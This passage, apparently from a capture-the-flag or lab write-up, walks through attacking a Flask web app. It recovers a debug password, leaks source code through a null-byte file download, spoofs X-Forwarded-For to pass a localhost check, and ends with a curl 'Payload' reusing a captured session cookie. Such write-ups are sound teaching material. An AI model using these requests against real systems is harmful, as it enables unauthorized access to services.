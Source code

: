 ```
b'AyhamDeebugg'
```

With the decoded password, the check was bypassed and the debug statement executed successfully.

	http://<target ip>:7777/debug?debug=test&password=AyhamDeebugg

Before jumping straight into debugresult.html, there were two things that needed to be handled since it gives unauthrized error 401.

```
def debugResult():
    if not ip.checkIP(request):
        return abort(401, "Everything made in home, we don't like intruders.")
    
    if not session:
        return render_template("debugresult.html")
```

The app was checking the client’s IP before giving access.

```
$ curl http://<target ip>:7777/cloud -X POST -d 'download=ip.py%00.txt'
host_ip = "127.0.0.1"
def checkIP(req):
    try:
        return req.headers.getlist("X-Forwarded-For")[0] == host_ip
    except:
        return req.remote_addr == host_ip
```
A common trick here is using the X-Forwarded-For (XFF) header, which normally tells a server what the original client IP was if traffic went through a proxy or load balancer. If the app trusts this header without validating it, just spoof it by adding

	X-Forwarded-For: 127.0.0.1

This basically makes the server think the request is coming from localhost, which is usually trusted.

Plus, the page expected a session cookie to be set. Without it, access was denied. Once the right cookie was added to the request, the page could be reached successfully.
```
$ curl 'http://<target ip>:7777/debug?debug=test&password=AyhamDeebugg' -I
HTTP/1.1 200 OK
Server: Werkzeug/2.3.4 Python/3.11.0
Date: Thu, 11 Sep 2025 12:47:15 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 2024
Vary: Cookie
Set-Cookie: session=.eJyrVkpJTSpNV7JSKkktLlHSUSpILC4uzy9KAYokqSvExFQYGKARqkDSMDkmpgjEMwZxLEAsMxArVV2pFgBkyRqO.aMLE0w.94wUAt4ME8clyOUcGZj5vfblXsU; HttpOnly; Path=/
Connection: close
```

**Payload:**
```
$ curl 'http://<target ip>:7777/debugresult' -H 'X-Forwarded-For: 127.0.0.1' -b 'session=.eJyrVkpJTSpNV7JSKkktLlHSUSpILC4uzy9KAYokqSvExFQYGKARqkDSMDkmpgjEMwZxLEAsMxArVV2pFgBkyRqO.aMLE0w.94wUAt4ME8clyOUcGZj5vfblXsU'
```
